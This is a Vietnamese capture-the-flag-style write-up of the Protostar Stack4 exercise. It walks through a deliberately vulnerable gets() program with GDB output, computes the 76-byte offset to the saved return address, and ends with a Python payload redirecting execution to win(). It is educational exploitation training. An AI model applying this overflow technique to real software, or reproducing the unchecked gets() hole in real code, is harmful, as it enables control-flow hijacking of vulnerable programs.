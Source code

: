 ## Stack4 
- Source code C:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
- GDB `disass`:
```asm 
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave  
0x0804841e <main+22>:   ret    
```

- Goal của bài này cũng là thay đổi execution flow, nhưng mà không có biến nào để ghi đè cả??
- Sau khi hàm `main` kết thúc, nó sẽ cần trao trả control lại cho hàm caller của nó (`main` là calle - bị gọi). Caller của `main` là `__libc_start_main`
- `__libc_start_main` sẽ gọi hàm `main`, trước khi gọi thì nó sẽ phải lưu địa chỉ trả về để lát nữa `main` thực thi xong thì có thể dùng instruction `ret` để về lại địa chỉ trả về đó
- Địa chỉ trả về này **nằm trên stack**, trước khi gọi hàm main, bằng lệnh `info frame` của gdb ta có thể xem được saved EIP (còn gọi là return address - là địa chỉ mà execution flow của `__libc_start_main` tiếp tục sau khi hàm `main` return)
```
(gdb) info frame 
Stack level 0, frame at 0xbffff6b0:
 eip = 0x8048408 in main (stack4/stack4.c:12); saved eip 0xb7eadc76
 source language c.
 Arglist at 0xbffff6a8, args: argc=1, argv=0xbffff754
 Locals at 0xbffff6a8, Previous frame's sp is 0xbffff6b0
 Saved registers:
  eip at 0xbffff6ac
```
- Vậy `0xb7eadc76` sẽ là địa chỉ được nhảy tới tiếp sau khi `main` thực thi xong, gõ `x/i 0xb7eadc76` ta sẽ thấy đoạn mã asm của `__libc_start_main` tại offset 230:
```asm
(gdb) x/i 0xb7eadc76
0xb7eadc76 <__libc_start_main+230>:     mov    DWORD PTR [esp],eax
```
- Giờ thì ta sẽ phải tính số bytes khoảng cách từ saved EIP đến biến `buffer`. Đầu tiên sau khi return address được push lên stack, tiếp theo sẽ tới lượt EBP được push:
```
(gdb) x/20x $esp 
return address-----|
                   V
0xbffff6ac:     0xb7eadc76      0x00000001      0xbffff754      0xbffff75c
0xbffff6bc:     0xb7fe1848      0xbffff710      0xffffffff      0xb7ffeff4
0xbffff6cc:     0x0804824b      0x00000001      0xbffff710      0xb7ff0626
0xbffff6dc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffff6ec:     0x00000000      0xbffff728      0x2a41cdd5      0x0014dbc5
(gdb) x $eip 
0x8048408 <main>:       0x83e58955
(gdb) x/i $eip 
0x8048408 <main>:       push   ebp // lệnh tiếp theo
(gdb) 
```
- Vậy là cộng 4 bytes, tới đoạn `sub    esp,0x50` sẽ mở rộng stack thêm `0x50 = 80 bytes`, cùng với 8 bytes được padding sau câu lệnh `and    esp,0xfffffff0` => 80+4+8 = **92 bytes**
- Vậy là return address lúc này cách đỉnh của stack 84 bytes. Biến mà ta ghi đè được nằm ở ô `esp+0x10`, tức là cách đỉnh stack `0x0c = 12` bytes (từ byte thứ 13 - 16 là data của ô này)
- Tóm lại là biến `buffer` sẽ cách return address **92 - 16 = 76 bytes**, từ byte thứ 77 sẽ là data của return address
- Ok vậy mảnh ghép cuối cùng chỉ còn là địa chỉ mà ta cần ghi đè để khi kết thúc hàm main thì nhảy tới, đó là address của `win`. Objdump như bài trước và ta tìm ra giá trị `080483f4`, craft payload:
```python 
user@protostar:/opt/protostar/bin$ python -c 'print "A"*76  + "\xf4\x83\x04\x08"' |./stack4
code flow successfully changed
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
